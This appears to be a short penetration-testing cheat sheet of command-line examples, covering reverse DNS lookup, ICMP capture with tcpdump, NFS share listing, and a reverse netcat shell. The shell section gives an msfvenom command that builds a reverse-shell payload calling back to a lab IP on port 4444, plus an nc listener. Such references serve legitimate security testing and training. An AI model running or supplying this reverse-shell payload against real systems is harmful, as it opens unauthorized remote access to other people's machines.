 ```yaml
---
title: Cli Commands Collation
description:Penetration Tests CheatSheet - In this CheatSheet, you will find a series of practical example commands for running Gobuster and getting the most of this powerful tool.
template: comments.html
tags: [pt, penetration-testing, cli, commands, collation]
---
```


# Cli Commands Collation

## Find PTR Owner - Reversal Look Up

```bash
dig 0.168.192.in-addr.arpa. NS
```

## Listent for Ping/icmp on interface

```bash
sudo tcpdump ip proto \\icmp -i eth0
```

## Reverse Netcat Shell

Payload R(row)

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.11.19.49 lport=4444 R
```

listener:

```bash
nc -lvp 4444
```

## NFS Show Mount

```bash
showmount -e 10.10.87.232
```
